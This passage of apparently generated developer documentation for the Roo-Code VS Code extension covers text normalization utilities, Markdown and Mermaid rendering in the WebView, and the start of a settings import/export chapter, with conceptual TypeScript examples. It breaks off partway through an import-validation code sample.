export function normalizeAndClean(text: string | undefined | null): string {
    if (!text) return "";
    let normalized = text.trim();
    normalized = normalizeLineEndings(normalized);
    normalized = stripNonPrintableChars(normalized);
    return normalized;
}
```

**Explanation:**

*   **`normalizeLineEndings`:** Uses two chained `replace` calls with global regex flags (`g`) to convert `\r\n` and then any remaining standalone `\r` to `\n`. Handles null/undefined input.
*   **`trimAndNormalize`:** Combines `text.trim()` with `normalizeLineEndings`.
*   **`unescapeHtmlEntities`:** Uses multiple chained `replace` calls to convert common HTML entities back to their respective characters. `&amp;` is replaced last. Handles null/undefined input.
*   **`stripNonPrintableChars` (Conceptual):** Uses a regex character class `[\x00-\x08\x0B\x0C\x0E-\x1F\x7F]` to match most ASCII control characters (excluding Tab, LF, CR) and DEL, replacing them with an empty string. Handles null/undefined input.
*   **`normalizeAndClean` (Example):** Shows how multiple normalization steps can be combined into a single utility function.

## Internal Implementation

These utilities are pure functions operating directly on strings using built-in JavaScript string methods and regular expressions. Their internal implementation is straightforward string manipulation.

**Step-by-Step (`normalizeLineEndings`):**

1.  Input: `text` string.
2.  Check if `text` is falsy. If yes, return `""`.
3.  Call `text.replace(/\r\n/g, '\n')`. This creates `string1` where all CRLF sequences are replaced by LF.
4.  Call `string1.replace(/\r/g, '\n')`. This creates `string2` where any remaining CR characters (from original CR-only endings) are replaced by LF.
5.  Return `string2`.

**Step-by-Step (`unescapeHtmlEntities`):**

1.  Input: `text` string.
2.  Check if `text` is falsy. If yes, return `""`.
3.  Call `text.replace(/&lt;/g, '<')` -> `string1`.
4.  Call `string1.replace(/&gt;/g, '>')` -> `string2`.
5.  Call `string2.replace(/&quot;/g, '"')` -> `string3`.
6.  Call `string3.replace(/&apos;/g, "'")` -> `string4`.
7.  Call `string4.replace(/&amp;/g, '&')` -> `string5`.
8.  Return `string5`.

## Modification Guidance

Modifications usually involve adding new specific normalization functions or adjusting the behavior of existing ones based on specific needs.

1.  **Adding `normalizeWhitespace`:**
    *   **Define & Implement:** Add the function as shown in the Conceptual Code Walkthrough section, using regex like `/[ \t]+/g` to replace multiple spaces/tabs with a single space and potentially `trim()`.
    *   **Usage:** Call where sequences of whitespace should be collapsed for comparison or processing (e.g., comparing user input commands ignoring extra spaces).

2.  **Handling More HTML Entities:**
    *   **Modify `unescapeHtmlEntities`:** Add more `.replace(/&entity_name;/g, 'char')` calls for other entities if needed (e.g., `&nbsp;` -> ` `).
    *   **Alternative:** Consider using a dedicated library (like `he` - `npm install he`) for more comprehensive HTML entity decoding if required:
        ```typescript
        import he from 'he';
        export function comprehensiveUnescape(text: string | undefined | null): string {
            if (!text) return "";
            return he.decode(text);
        }
        ```
    *   **Trade-offs:** A library is more robust but adds a dependency. Manual replacement handles common cases simply.

3.  **Making Line Ending Normalization Configurable:**
    *   **Add Parameter:** Modify `normalizeLineEndings(text, targetEol: '\n' | '\r\n' = '\n')`.
    *   **Implement Logic:** Add conditional logic based on `targetEol`. If `'\r\n'`, normalize to LF first, then replace LF with CRLF.
    *   **Usage:** Callers can specify the target EOL if needed, defaulting to LF.
    *   **Considerations:** Increases complexity; consistent internal use of LF is usually simpler.

**Best Practices:**

*   **Purposeful Application:** Apply normalization only when necessary for a specific goal (comparison, tool input, consistent storage). Avoid normalizing text intended for literal display if it alters meaning (e.g., whitespace in code).
*   **Immutability:** Utilize string methods that return new strings (`replace`, `trim`, `toLowerCase`).
*   **Efficiency:** Standard string methods and simple regex are generally very efficient. Avoid overly complex regex in performance-critical paths.
*   **Order Matters:** The order of operations can matter (e.g., `trim()` before `normalizeLineEndings` in `trimAndNormalize`). Consider the desired end result. Replacing `&amp;` last in `unescapeHtmlEntities` is important.
*   **Clear Naming:** Use function names that clearly indicate the transformation being performed (e.g., `normalizeLineEndings`, `unescapeHtmlEntities`).

**Potential Pitfalls:**

*   **Over-Normalization:** Applying normalization inappropriately (e.g., `trim()` on code snippets) can corrupt data.
*   **Incorrect Regex:** Flawed regex patterns can lead to incorrect replacements or performance issues (catastrophic backtracking, though less likely with these simple patterns).
*   **EOL Issues:** Failing to normalize line endings before comparisons or diffing is a common source of bugs when dealing with text from different OS environments or tools.
*   **HTML Entity Complexity:** Simple replacement might not handle all edge cases or numeric entities (`&#...;`). A dedicated library is more robust if full HTML entity support is needed.
*   **Unicode & Non-Printable:** Handling the full range of Unicode or complex control characters requires more sophisticated logic than basic ASCII non-printable stripping. Ensure the scope of `stripNonPrintableChars` matches the actual requirements.

## Conclusion

The Text Normalization Utilities provide essential, albeit simple, functions for ensuring text consistency within Roo-Code. By offering standard ways to handle line endings (`normalizeLineEndings`), unescape HTML entities (`unescapeHtmlEntities`), and potentially trim whitespace or strip unwanted characters, these utilities make text comparisons, processing logic, and interactions with external tools more reliable and less prone to errors caused by superficial text variations. They are fundamental building blocks applied in various parts of the extension, particularly where text comparison, diffing, or preparation for parsing/execution is needed.

Having covered various utility types, we now return to a UI-focused topic: rendering formatted text, especially Markdown, within the WebView. The next chapter discusses [Chapter 46: Markdown Rendering](46_markdown_rendering.md).
---
# Chapter 46: Markdown Rendering

Continuing from [Chapter 45: Text Normalization Utilities](45_text_normalization_utilities.md), where we explored cleaning and standardizing text, this chapter focuses on how Roo-Code takes structured text, specifically Markdown, and renders it as visually rich content within the WebView UI: **Markdown Rendering**.

## Motivation: Displaying Rich AI Responses

LLMs frequently generate responses using Markdown syntax to structure text, emphasize points, create lists, display code blocks, include links, and sometimes even embed diagrams (like Mermaid). Simply displaying the raw Markdown text (`# Heading\n* List item\n\`code\``) in the chat UI would be difficult to read and lose the intended formatting.

Roo-Code needs a robust mechanism within its [Chapter 1: WebView UI](01_webview_ui.md) to parse Markdown strings and render them as corresponding HTML elements, applying appropriate styling consistent with the VS Code theme. This includes handling:

*   Standard Markdown elements (headings, lists, bold, italics, links, blockquotes).
*   Syntax highlighting for code blocks within the Markdown.
*   Rendering specialized diagrams defined using Mermaid syntax within code blocks.

**Central Use Case:** The AI assistant responds with a message containing Markdown:

```markdown
Here's a summary:

*   **Point 1:** Explanation...
*   **Point 2:** Check the `config.js` file.

```typescript
function setup() {
  console.log("Setup complete!");
}
```


```

The [Chapter 34: Chat UI Components (WebView)](34_chat_ui_components__webview_.md) need to display this not as raw text, but as:

> Here's a summary:
>
> *   **Point 1:** Explanation...
> *   **Point 2:** Check the `config.js` file.
>
> ```typescript
> function setup() {
>   console.log("Setup complete!");
> }
> ```
>
> [Rendered Mermaid Diagram]

This requires parsing the Markdown, identifying code blocks (applying syntax highlighting), identifying Mermaid blocks (rendering them as SVG), and converting other Markdown elements to styled HTML.

## Key Concepts

1.  **Markdown Parsing (`react-markdown`/`remark`):** Roo-Code utilizes the `react-markdown` library, which leverages the `remark` ecosystem (including `unified`, `remark-parse`, `remark-rehype`, `rehype-react`). This toolchain parses Markdown strings into an Abstract Syntax Tree (MDAST), transforms it into an HTML Syntax Tree (HAST), and finally renders it as React elements. This provides a flexible and extensible pipeline.

2.  **Syntax Highlighting (`rehype-highlight`):** To apply syntax highlighting to code blocks (e.g., ` ```typescript ... ``` `), the `rehype-highlight` plugin is used within the `react-markdown` pipeline. It integrates with the `highlight.js` library.

3.  **Theme Integration (Highlighting):** Achieving syntax highlighting that matches the current VS Code theme involves several steps:
    *   **Theme Fetching:** The extension host sends theme information (derived from VS Code's theme service or TextMate grammar rules) to the WebView via the `theme` message ([Chapter 3: Webview/Extension Message Protocol](03_webview_extension_message_protocol.md)). This data is stored in the `ExtensionStateContext` ([Chapter 12: ExtensionStateContext](12_extensionstatecontext.md)).
    *   **CSS Variable Injection (`textMateToHljs.ts`):** The `convertTextMateToHljs` utility (`webview-ui/src/utils/textMateToHljs.ts`) processes this theme data. It maps TextMate scopes (e.g., `keyword.control`, `string.quoted`) to `highlight.js` CSS classes (e.g., `.hljs-keyword`, `.hljs-string`) and generates CSS rules using VS Code CSS variables (`--vscode-*`) for colors and styles. These rules are dynamically injected into the WebView's `<head>` (likely via a component managing a `<style>` tag that updates when the theme context changes).
    *   **`StyledPre` Component:** A custom wrapper (`webview-ui/src/components/common/StyledPre.tsx`) is used as the renderer for `<pre>` tags. It reads the current theme's editor background/foreground from context and applies them as inline styles. It also applies the base `hljs` class necessary for the injected CSS rules to target the code blocks.

4.  **Mermaid Diagram Rendering (`MermaidBlock.tsx`):**
    *   **Detection:** Logic within the custom `code` renderer provided to `react-markdown` identifies code blocks marked with `language-mermaid`.
    *   **Rendering Component:** It uses the dedicated `MermaidBlock` component (`webview-ui/src/components/common/MermaidBlock.tsx`).
    *   **`mermaid` Library:** `MermaidBlock` imports the `mermaid` JavaScript library.
    *   **Initialization & Rendering:** It uses `useEffect` to initialize `mermaid` with theme settings derived from the current VS Code theme (light/dark) fetched from context. Another `useDebounceEffect` handles parsing the diagram definition (`mermaid.parse`) and rendering it to SVG (`mermaid.render`) asynchronously when the definition changes.
    *   **Display:** The generated SVG string is rendered using `dangerouslySetInnerHTML`. Error handling displays messages if parsing/rendering fails.
    *   **Interaction:** An `onClick` handler allows converting the SVG to a PNG data URL for opening/saving via an `openImage` message.

5.  **Custom Plugins (`remarkUrlToLink`):** The `react-markdown` pipeline uses a custom Remark plugin `remarkUrlToLink` (`webview-ui/src/utils/remark-url-to-link.ts`) to automatically detect plain URLs within text nodes and convert them into proper Markdown link nodes.

6.  **`MarkdownBlock.tsx` Component:** The primary orchestrator (`webview-ui/src/components/common/MarkdownBlock.tsx`).
    *   **Props:** Accepts the raw Markdown string (`content`).
    *   **`ReactMarkdown` Setup:** Configures the `ReactMarkdown` component.
    *   **Plugins:** Specifies the Remark plugins (`remarkGfm`, `remarkUrlToLink`) and Rehype plugins (`rehypeHighlight` with a language subset for optimization).
    *   **Custom Renderers (`components` prop):**
        *   `pre`: Overrides with `StyledPre` for themed container styling.
        *   `code`: Custom logic to detect `language-mermaid` (rendering `MermaidBlock`), handle inline code styling, or pass block code through (relying on `rehypeHighlight`'s classes and `StyledPre`).
        *   `a`: Potentially overrides link rendering (e.g., to ensure `target="_blank"`).

## Using Markdown Rendering

The main consumer is `ChatRow` ([Chapter 34: Chat UI Components (WebView)](34_chat_ui_components__webview_.md)), which renders AI responses and user messages containing Markdown.

**Example within `ChatRow.tsx`:**

```typescript
// --- File: webview-ui/src/components/chat/ChatRow.tsx ---
// ... other imports ...
import MarkdownBlock from "../common/MarkdownBlock"; // Import the main rendering component

// ... inside the component's render logic ...

// When message.type === 'say' and message.say === 'text'
if (message.type === 'say' && message.say === 'text' && message.text) {
    return (
        <div className="message-content text-content">
            {/* Pass the raw Markdown string to MarkdownBlock */}
            {/* Memoization added via export default React.memo(MarkdownBlock) */}
            <MarkdownBlock content={message.text} />
        </div>
    );
}

// When message.type === 'ask' and message.ask === 'followup'
if (message.type === 'ask' && message.ask === 'followup' && message.text) {
    return (
        <div className="message-content ask-content">
            {/* Render the AI's question using MarkdownBlock */}
            <MarkdownBlock content={message.text} />
            {/* ... render suggested replies using FollowUpSuggest ... */}
        </div>
    );
}

// ... other message type rendering ...
```

**Explanation:**

*   `ChatRow` identifies messages containing Markdown (`say: "text"`, `ask: "followup"`).
*   It passes the raw `message.text` to the `MarkdownBlock` component.
*   `MarkdownBlock` encapsulates all the logic for parsing, applying plugins (GFM, URL linking, highlighting), using custom renderers (`StyledPre`, `MermaidBlock`), and ultimately producing themed HTML React elements.

## Code Walkthrough

### `MarkdownBlock.tsx`

*(Code provided in Chapter 34 context)*

*   **Core:** Uses `ReactMarkdown` component.
*   **Plugins:**
    *   `remarkPlugins`: `remarkGfm` (GitHub Flavored Markdown), `remarkUrlToLink` (custom plugin for auto-linking).
    *   `rehypePlugins`: `rehypeHighlight` (configured with language subset `HIGHLIGHT_LANGUAGES`, auto-detect, ignore missing).
*   **Custom Components:**
    *   `pre: StyledPre`: Uses the custom `StyledPre` component to render the outer block of code blocks, applying theme-based background/foreground.
    *   `code`: Handles three cases:
        1.  `language-mermaid`: Renders `MermaidBlock`.
        2.  `inline`: Renders inline `<code>` with specific themed styles (background, border).
        3.  Block code (other languages): Renders a standard `<code>` passing through the `className` (e.g., `language-typescript`) added by `rehypeHighlight`. The highlighting spans are added *inside* this `<code>` by `rehypeHighlight`, and the overall styling comes from `StyledPre` and the injected CSS theme.
*   **Memoization:** Wrapped with `React.memo` to optimize performance by preventing re-renders if the `content` prop doesn't change.

### `StyledPre.tsx`

*(Code provided in Chapter 33 context)*

```typescript
// --- File: webview-ui/src/components/common/StyledPre.tsx ---
import React from "react";
import { useExtensionState } from "@src/context/ExtensionStateContext"; // To get theme

export const StyledPre = ({ children }: { children: React.ReactNode }) => {
	const { theme } = useExtensionState(); // Access theme data from global context

	// Define base styles, including hljs class for highlight.js rules
	const baseClassName = "hljs p-2 rounded-md overflow-x-auto block"; // Added padding, rounded, overflow

	// Construct dynamic style object using VS Code variables from theme context
	const dynamicStyle: React.CSSProperties = theme?.themeVariables
		? {
				backgroundColor: theme.themeVariables["--vscode-editor-background"],
				color: theme.themeVariables["--vscode-editor-foreground"],
				// Consider adding font family/size if needed
				// fontFamily: theme.themeVariables["--vscode-editor-font-family"],
				// fontSize: theme.themeVariables["--vscode-editor-font-size"],
		  }
		: {
				// Fallback styles if theme context is unavailable
				backgroundColor: "#1e1e1e", // Default dark background
				color: "#d4d4d4", // Default light text
		  };

	return (
		// Apply base class and dynamic styles
		<pre className={baseClassName} style={dynamicStyle}>
			{children}
		</pre>
	);
};
```

**Explanation:**

*   **Purpose:** Custom renderer for `<pre>` tags.
*   **Theme Access:** Uses `useExtensionState` to get the `theme` object.
*   **Styling:**
    *   Applies a base `className` including `hljs` (essential for `highlight.js` CSS rules) and layout styles (padding, rounded corners, overflow).
    *   Applies dynamic inline `style` for `backgroundColor` and `color`, using values derived from VS Code CSS variables (`--vscode-editor-background`, `--vscode-editor-foreground`) stored in the `theme` context object. Includes fallback styles.

### `MermaidBlock.tsx`

*(Code provided in Chapter 34 context)*

*   **Imports:** `mermaid` library, React hooks, theme context.
*   **State:** `svgContent`, `errorMessage`, `loading`.
*   **Theme Config (`useEffect`):** Initializes `mermaid` on mount, setting the `theme` ('dark'/'light') and `themeVariables` based on `vsCodeTheme` from context, mapping Mermaid variables to VS Code CSS variables for consistent styling.
*   **Rendering (`useDebounceEffect`):** Debounces the parsing/rendering logic. Calls `mermaid.parse` and `mermaid.render` asynchronously. Updates `svgContent` on success or `errorMessage` on failure.
*   **Output:** Renders loading/error states or the SVG using `dangerouslySetInnerHTML`.
*   **Click Handler:** Converts SVG to PNG data URL using `canvas` and sends `openImage` message.

### Theme CSS Generation (`webview-ui/src/utils/textMateToHljs.ts`)

*(Code provided in Chapter 33 context)*

*   **`convertTextMateToHljs`:** Takes VS Code theme data (TextMate rules).
*   **Mapping:** Maps TextMate scopes (e.g., `comment`, `string`) to `highlight.js` CSS classes (`.hljs-comment`, `.hljs-string`).
*   **CSS Generation:** Creates CSS rules targeting the `highlight.js` classes. **Crucially**, the `color`, `background-color`, and `font-style` properties in these generated rules **must use the corresponding VS Code CSS variables** (`var(--vscode-...)`) obtained from the theme data to achieve dynamic theme adaptation. *(Self-correction: The snippet provided previously used hardcoded hex values. A correct implementation for live theming MUST use CSS variables here).*
*   **Defaults:** Includes default styles for `.hljs` using `--vscode-editor-background` / `--vscode-editor-foreground`.
*   **Injection:** The resulting CSS string needs to be injected into a `<style>` tag in the WebView's `<head>`.

**Conceptual Corrected CSS Generation:**

```typescript
// Conceptual snippet within convertTextMateToHljs
// Assuming 'themeData' contains mappings like { scope: 'keyword.control', settings: { foreground: 'var(--vscode-keywordControlForeground)', fontStyle: 'italic' } }
function generateCssRule(selector: string, settings: { foreground?: string; background?: string; fontStyle?: string }): string {
    let rule = `${selector} {`;
    if (settings.foreground) rule += ` color: ${settings.foreground};`; // Use variable directly
    if (settings.background) rule += ` background-color: ${settings.background};`; // Use variable
    if (settings.fontStyle) rule += ` font-style: ${settings.fontStyle};`;
    rule += " }";
    return rule;
}

// ... loop through themeData.tokenColors ...
const hljsSelectors = mapScopeToHljsClasses(rule.scope); // Get corresponding .hljs-* selector(s)
if (hljsSelectors) {
    cssString += generateCssRule(hljsSelectors, rule.settings);
}
// ...
```

## Internal Implementation

1.  **Component Call:** `ChatRow` renders `<MarkdownBlock content="..." />`.
2.  **Parsing:** `ReactMarkdown` parses the Markdown string into an AST.
3.  **Plugins:** Remark plugins (`remarkGfm`, `remarkUrlToLink`) modify the AST. It's converted to HAST. Rehype plugin (`rehypeHighlight`) processes `<code>` nodes in the HAST, adding `language-xyz` classes and wrapping tokens in `<span>` tags with `hljs-abc` classes.
4.  **Rendering:** `ReactMarkdown` converts HAST to React elements.
5.  **Custom Renderers:**
    *   When a `<pre>` is encountered, `StyledPre` is rendered.
    *   When a `<code>` is encountered:
        *   If `language-mermaid`, `MermaidBlock` is rendered.
        *   If inline, a styled `<code>` is rendered.
        *   If block code, a standard `<code>` with `hljs` classes is rendered *inside* the `StyledPre`.
6.  **Styling Application:**
    *   `StyledPre` applies themed background/foreground inline styles.
    *   The browser applies the injected CSS rules (generated by `convertTextMateToHljs` using VS Code variables) to the `.hljs` spans within the code blocks, coloring the tokens according to the current VS Code theme.
    *   `MermaidBlock` renders its themed SVG.

**Sequence Diagram (Highlighting):**



## Modification Guidance

Modifications typically involve changing highlighting, adding Markdown features, or customizing rendering.

1.  **Adding More Highlighted Languages:**
    *   **`MarkdownBlock.tsx`:** Add the language key to `HIGHLIGHT_LANGUAGES`. Verify `highlight.js` support.
    *   **Theme CSS:** Ensure the TextMate-to-Hljs conversion (`textMateToHljs.ts`) correctly maps scopes relevant to the new language to CSS variables if specific coloring is needed beyond generic token types.

2.  **Changing Code Block Theme/Styling:**
    *   **`textMateToHljs.ts`:** Modify scope mappings or the CSS variables used in the generated rules.
    *   **`StyledPre.tsx`:** Adjust base styles (padding, font, border) or fallback colors.

3.  **Adding a Custom Markdown Syntax (e.g., `[[WikiLink]]`):**
    *   **Remark Plugin:** Create a plugin to transform `[[WikiLink]]` into a standard link or custom node.
    *   **`MarkdownBlock.tsx`:** Add the plugin to `remarkPlugins`. Add a custom renderer to `components` if using a custom node type.

4.  **Customizing Link Rendering:**
    *   **`MarkdownBlock.tsx`:** Provide a custom renderer for the `a` tag in the `components` prop.
        ```typescript
        components={{
            // ... other components
            a: ({ node, ...props }) => (
                <a {...props} target="_blank" rel="noopener noreferrer" title={`Open link: ${props.href}`}>
                    {props.children} <span className="codicon codicon-link-external" style={{ fontSize: '0.8em', verticalAlign: 'middle' }}></span>
                </a>
            ),
        }}
        ```
        This example adds `target="_blank"` and an external link icon.

**Best Practices:**

*   **Use Plugins:** Leverage Remark/Rehype plugins for syntax extensions.
*   **Theme Variables:** Maximize use of VS Code CSS variables for styling consistency.
*   **Performance:** Use `React.memo`. Limit the number of languages actively loaded/supported by `rehype-highlight` if bundle size/performance is a concern. Use virtualization (`Virtuoso`) for long lists containing Markdown blocks.
*   **Security:** Be cautious with `dangerouslySetInnerHTML` (`MermaidBlock`) and ensure input is trusted. Sanitize if processing user-generated HTML within Markdown.

**Potential Pitfalls:**

*   **Plugin Conflicts/Order:** Remark/Rehype plugin order can matter.
*   **Highlighting Failures:** Language detection might fail, or a language might be unsupported/missing from the `highlight.js` build used by `rehype-highlight`.
*   **Theme CSS Errors:** Incorrect CSS generation or injection will break highlighting colors.
*   **Mermaid Failures:** Invalid Mermaid syntax or library initialization errors.
*   **Markdown Ambiguities:** Different Markdown flavors or complex nesting might not render exactly as expected. `remark-gfm` helps standardize.

## Conclusion

Markdown Rendering is essential for presenting AI-generated responses in a clear, structured, and visually appealing way within the Roo-Code WebView. By utilizing the `react-markdown` ecosystem, integrating syntax highlighting via `rehype-highlight`, dynamically applying theme-based styles using VS Code CSS variables (`StyledPre`, injected CSS), and handling special cases like Mermaid diagrams (`MermaidBlock`), Roo-Code provides a rich rendering experience. Custom plugins and component overrides allow for further tailoring of the output, ensuring that complex information from the AI is displayed effectively and consistently with the VS Code environment.

Having covered the core components and utilities for both the extension host and the WebView UI, the next chapter looks at the system for managing configuration import and export: [Chapter 47: Configuration Import/Export](47_configuration_import_export.md).
---
# Chapter 47: Configuration Import/Export

Continuing from [Chapter 46: Markdown Rendering](46_markdown_rendering.md), where we explored how Roo-Code displays formatted Markdown, we now shift to a higher-level feature related to managing the user's overall setup: **Configuration Import/Export**.

## Motivation: Sharing, Backing Up, and Migrating Settings

As users customize Roo-Code, they configure various settings: API keys and profiles ([Chapter 9: ProviderSettingsManager](09_providersettingsmanager.md)), custom modes ([Chapter 10: CustomModesManager](10_custommodesmanager.md)), UI preferences, tool behavior defaults ([Chapter 35: Settings UI Components (WebView)](35_settings_ui_components__webview_.md)), experimental flags, etc. Users may want to:

1.  **Backup:** Create a backup of their entire configuration for safekeeping.
2.  **Migrate:** Transfer their settings easily to a different machine or VS Code installation (e.g., using Settings Sync or manually).
3.  **Share:** Share specific parts of their configuration (like custom modes or non-sensitive API profile settings) with colleagues or the community.
4.  **Troubleshooting:** Export their settings (potentially excluding sensitive keys) to help diagnose issues.

Implementing individual export/import mechanisms for each type of setting would be cumbersome. A unified import/export system provides a convenient way to manage the application's configuration state as a whole or in logical parts.

Roo-Code provides commands and underlying logic to export the current configuration (excluding sensitive secrets like API keys) to a JSON file and import settings from such a file, overwriting existing configurations.

**Central Use Case:** A user has spent time creating several custom modes and configuring specific API profiles (without keys). They want to use the same setup on their laptop.

1.  **Export:** On their primary machine, the user opens the VS Code Command Palette (`Ctrl+Shift+P`) and runs the command "Roo Code: Export Settings".
2.  The command handler triggers the export logic.
3.  This logic gathers all relevant non-sensitive settings:
    *   Calls `ContextProxy.export()` ([Chapter 11: ContextProxy](11_contextproxy.md)) to get settings from `globalState` (using `globalSettingsExportSchema` which omits sensitive/dynamic fields).
    *   Calls `ProviderSettingsManager.export()` ([Chapter 9: ProviderSettingsManager](09_providersettingsmanager.md)) to get the structure of API profiles *excluding* the actual API keys.
    *   Calls `CustomModesManager.getGlobalCustomModes()` ([Chapter 10: CustomModesManager](10_custommodesmanager.md)) to get global custom modes.
4.  It combines this data into a single JSON object (e.g., `{ version: "...", globalSettings: {...}, apiProfiles: {...}, globalCustomModes: [...] }`).
5.  It prompts the user for a location to save the file using `vscode.window.showSaveDialog`.
6.  It writes the JSON object to the selected file (e.g., `roo-code-settings.json`) using file system utilities ([Chapter 42: File System Utilities](42_file_system_utilities.md)).
7.  **Import:** On their laptop, the user runs the "Roo Code: Import Settings" command.
8.  The command handler prompts the user to select the previously exported `roo-code-settings.json` file using `vscode.window.showOpenDialog`.
9.  It reads the JSON file content.
10. It validates the structure of the imported JSON using Zod schemas ([Chapter 40: Schemas (Zod)](40_schemas__zod_.md)).
11. It shows a confirmation dialog warning the user about overwriting settings.
12. If confirmed, it calls functions to apply the imported settings:
    *   `ContextProxy.setValues(imported.globalSettings)`.
    *   `ProviderSettingsManager.import(imported.apiProfiles)` (replaces existing profiles, attempts to preserve secrets for matching profiles).
    *   `CustomModesManager.import(imported.globalCustomModes)` (overwrites `settings/custom_modes.json`).
13. It triggers a state refresh ([Chapter 2: ClineProvider](02_clineprovider.md)`'s` `postStateToWebview`) so the UI reflects the imported settings. The user now has their custom modes and API profile structures on the laptop (they still need to enter the API keys manually via the Settings UI).

## Key Concepts

1.  **Scope:** The primary focus is on importing/exporting **non-sensitive** configuration that defines user customization (modes, profile structures, UI preferences). **API keys and other secrets are explicitly excluded** from the export for security.
2.  **JSON Format:** Configuration is exported as a single JSON file containing sections for global settings, API profiles (structure only, no keys), and global custom modes. A version number is included.
3.  **Export Logic (`exportRooSettings`):**
    *   Triggered by a VS Code command (`roo-code.exportSettings`).
    *   Aggregates data from `ContextProxy` (via `.export()`, using a specific export schema), `ProviderSettingsManager` (via `.export()`, omitting secrets), and `CustomModesManager` (via `.getGlobalCustomModes()`).
    *   Combines data into a root JSON object with a version field.
    *   Uses `vscode.window.showSaveDialog` to get the destination file path.
    *   Writes the JSON data using `fs.writeFile` ([Chapter 42: File System Utilities](42_file_system_utilities.md)).
4.  **Import Logic (`importRooSettings`):**
    *   Triggered by a VS Code command (`roo-code.importSettings`).
    *   Uses `vscode.window.showOpenDialog` to select the JSON file.
    *   Reads and parses the JSON file.
    *   **Validation:** Uses a dedicated Zod schema (`importedConfigSchema`) to validate the structure and types of the imported data. Aborts if validation fails.
    *   **Confirmation:** Shows a modal warning dialog (`vscode.window.showWarningMessage`) before proceeding.
    *   **Application:** If confirmed, calls specific `.setValues()` or `.import()` methods on `ContextProxy`, `ProviderSettingsManager`, and `CustomModesManager` to apply the validated data sections, overwriting existing configurations. The `ProviderSettingsManager.import` logic attempts to preserve existing secrets for profiles matching by name or ID.
    *   **State Refresh:** Triggers a UI state refresh via the provider's `postStateUpdate` callback.
5.  **VS Code Commands:** `"roo-code.exportSettings"`, `"roo-code.importSettings"` registered via `registerConfigActions`.
6.  **Schema Definitions (`exportImport.ts`, `schemas/`):** Zod schemas define the exported structure (`importedConfigSchema`) and validate imported files. Export-specific schemas (like `globalSettingsExportSchema` within `ContextProxy`) are used to omit sensitive or transient fields during export.
7.  **Manager Methods (`export`, `import`):** `ContextProxy`, `ProviderSettingsManager`, and `CustomModesManager` need specific methods to handle the export (filtering sensitive data) and import (applying validated data, merging secrets) logic for their respective domains.

## Using Import/Export

The feature is accessed via VS Code commands from the Command Palette.

**Export Process:**

1.  Run "Roo Code: Export Settings".
2.  Choose save location and filename (e.g., `roo-settings-backup.json`). Click Save.
3.  Confirmation message appears. JSON file created without API keys.

**Import Process:**

1.  Run "Roo Code: Import Settings".
2.  Select the exported JSON file. Click Open.
3.  Confirmation dialog appears (warning about overwrite). Click "Import".
4.  Settings are loaded, validated, and applied.
5.  UI refreshes. API keys need manual re-entry. Confirmation message appears.

## Code Walkthrough

*(Using conceptual implementations from Chapter 47)*

### Export Logic (`src/core/config/exportImport.ts` - Conceptual)

```typescript
// --- File: src/core/config/exportImport.ts ---
import * as vscode from "vscode";
import * as fs from "fs/promises";
import { ContextProxy } from "./ContextProxy";
import { ProviderSettingsManager, ProviderProfiles } from "./ProviderSettingsManager";
import { CustomModesManager } from "./CustomModesManager";
import { logger } from "../../utils/logging";
import { VERSION } from "../../version"; // Extension version

// Structure for the exported JSON file
interface ExportedConfig {
	version: string;
	globalSettings?: Partial<import("../../schemas").GlobalSettings>;
	apiProfiles?: ProviderProfiles; // Secrets expected to be omitted by manager.export()
	globalCustomModes?: import("../../schemas").ModeConfig[];
}

export async function exportRooSettings(
	contextProxy: ContextProxy,
	providerSettingsManager: ProviderSettingsManager,
	customModesManager: CustomModesManager,
): Promise<void> {
	logger.info("Starting settings export...", { ctx: "ExportImport" });
	try {
		// 1. Aggregate non-sensitive settings
		const settingsToExport: ExportedConfig = {
			version: VERSION,
			// ContextProxy.export uses schema omitting sensitive/dynamic fields
			globalSettings: await contextProxy.export(),
			// ProviderSettingsManager.export omits secret keys
			apiProfiles: await providerSettingsManager.export(),
			// CustomModesManager method to get only global modes
			globalCustomModes: await customModesManager.getGlobalCustomModes(),
		};

		// 2. Prompt user for save location
		const saveUri = await vscode.window.showSaveDialog(/* ... options ... */);
		if (!saveUri) { /* ... handle cancel ... */ return; }

		// 3. Write data to file
		const jsonData = JSON.stringify(settingsToExport, null, 2);
		await fs.writeFile(saveUri.fsPath, jsonData); // Using fs/promises

		logger.info(`Settings exported to ${saveUri.fsPath}`, { ctx: "ExportImport" });
		vscode.window.showInformationMessage("Roo Code settings exported successfully.");

	} catch (error) { /* ... handle error ... */ }
}

// --- Conceptual Manager Export Methods ---

// ContextProxy
// async export(): Promise<Partial<GlobalSettings> | undefined> {
//     const values = this.getValues(); // Get cached values
//     // Parse using a specific schema that omits sensitive/dynamic fields
//     // e.g., globalSettingsExportSchema defined using .omit()
//     const exportableSettings = globalSettingsExportSchema.parse(values);
//     // Filter out undefined values before returning
//     return Object.fromEntries(/* ... filter undefined ... */);
// }

// ProviderSettingsManager
// async export(): Promise<ProviderProfiles> {
//     const profiles = await this.load();
//     // Deep copy and remove sensitive keys
//     const exportedProfiles = JSON.parse(JSON.stringify(profiles));
//     for (const name in exportedProfiles.apiConfigs) {
//         SECRET_STATE_KEYS.forEach(key => { // SECRET_STATE_KEYS from schemas
//             delete exportedProfiles.apiConfigs[name][key];
//         });
//     }
//     return exportedProfiles; // Return structure without keys
// }

// CustomModesManager
// async getGlobalCustomModes(): Promise<ModeConfig[]> {
//     const globalPath = await this.getGlobalCustomModesFilePath();
//     return await this.loadModesFromFile(globalPath); // Load only global
// }
```

**Explanation:**

*   The `exportRooSettings` orchestrator function calls specific `.export()` or getter methods on the managers.
*   Crucially, `ProviderSettingsManager.export` *must* be implemented to iterate through the profiles and explicitly delete properties corresponding to `SECRET_STATE_KEYS` before returning the data.
*   `ContextProxy.export` uses a specific Zod schema (`globalSettingsExportSchema`) defined using `.omit()` to filter out fields not intended for export.
*   `CustomModesManager` provides a method to retrieve *only* the global modes.
*   The aggregated, sanitized data is written to a user-selected JSON file.

### Import Logic (`src/core/config/exportImport.ts` - Conceptual)

```typescript
// --- File: src/core/config/exportImport.ts ---
import * as vscode from "vscode";
import * as fs from "fs/promises";
import { z, ZodError } from "zod";
import { ContextProxy, globalSettingsExportSchema } from "./ContextProxy";
import { ProviderSettingsManager, providerProfilesSchema, ProviderSettings } from "./ProviderSettingsManager";
import { CustomModesManager, modeConfigSchema } from "./CustomModesManager";
import { logger } from "../../utils/logging";
import { VERSION } from "../../version";
import { SECRET_STATE_KEYS } from "../../schemas"; // Import secret keys list

// Zod schema for validating the imported file structure
const importedConfigSchema = z.object({
	version: z.string(), // Check version compatibility?
	globalSettings: globalSettingsExportSchema.optional(), // Use export schema for validation
	// Use full profiles schema, but keys will be missing from file
